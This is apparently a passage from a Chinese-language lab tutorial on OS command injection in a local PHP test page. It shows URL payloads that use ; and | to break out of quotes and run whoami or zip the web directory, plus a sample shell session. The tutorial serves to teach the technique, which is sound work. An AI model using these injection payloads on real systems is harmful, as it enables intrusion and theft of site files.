 `http://127.0.0.1:9999/test3.php?cmd=qqq';whoami;'qqq`

![](assets/markdown-img-paste-20180416130910513.png)

正如前面所说符号`;`不管其它命令是否执行，都会输出正确执行的命令的信息，当然是在php中，实际linux当中会有错误信息  

```
[root@514bd01cb105 html]# ls -al 'pwd';pwd;' ./'
ls: cannot access pwd: No such file or directory
/var/www/html
-bash:  ./: No such file or directory
```

`http://127.0.0.1:9999/test3.php?cmd=qqq%27|whoami|%27`

![](assets/markdown-img-paste-20180416131247669.png)

`http://127.0.0.1:9999/test3.php?cmd=qqq%27|zip%20-r%20zip.zip%20./*|%27`

![](assets/markdown-img-paste-20180416131340850.png)
